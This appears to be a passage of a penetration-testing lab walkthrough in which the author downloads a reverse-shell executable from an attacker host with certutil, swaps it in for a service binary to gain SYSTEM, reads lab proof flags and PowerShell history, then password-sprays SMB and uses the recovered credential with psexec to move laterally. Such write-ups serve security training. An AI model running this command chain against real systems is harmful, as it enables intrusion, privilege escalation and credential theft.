 # We can replace it with our reverse-shell
*Evil-WinRM* PS C:\DevelopmentExecutables> certutil -urlcache -split -f http://192.168.45.195:8088/cute.exe
*Evil-WinRM* PS C:\DevelopmentExecutables> copy cute.exe auditTracker.exe
# Lets restart auditTracker.exe service using powershell command
*Evil-WinRM* PS C:\DevelopmentExecutables> Restart-Service -Force -Name auditTracker

# Go back to the Msfconsole
[*] Command shell session 3 opened (192.168.45.195:8888 -> 192.168.219.121:64749) at 2024-05-30 07:55:01 -0700
sessions -i 3
C:\>whoami
nt authority\system
PS C:\Users\Administrator\Desktop> type proof.txt
3af4fed1bce9fe14175fa10ea6823064

# Check Powershell Console History
PS C:\Users\Administrator> type C:\Users\administrator.MEDTECH\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
...
Enable-PSRemoting -Force
exit
Set-Item WSMan:\localhost\Client\TrustedHosts -value *
winrm
winrm s winrm/config/client '@{TrustedHosts="FILES02"}'
winrm quickconfig
exit
winrm s winrm/config/client '@{TrustedHosts="FILES02"}'
winrm s winrm/config/client '@{TrustedHosts=*}'
winrm s winrm/config/client '@{TrustedHosts="MEDTECH\FILES02"}'
winrm s winrm/config/client '@{TrustedHosts="FILES02"}'
Set-Item WSMan:\localhost\Client\TrustedHosts -value "*" -Force
winrm configSDDL default
shutdown /s
...

# Nothing much, let try with password spray to other CLIENT01 to check any repeated password using
sudo proxychains -q crackmapexec smb 172.16.219.82 -u user.txt -p pass.txt -d 'medtech.com' --continue-on-success
...
SMB         172.16.219.82   445    CLIENT01         [+] medtech.com\yoshi:Mushroom! (Pwn3d!)
...
# Access using psexec
proxychains -q impacket-psexec yoshi:"Mushroom\!"@172.16.219.82
Get-ChildItem -Path C:\Users -Filter *.txt -Recurse
C:\Users\Administrator\Desktop> type proof.txt
36ef079b57b37e43f92e8f08c5b6263d
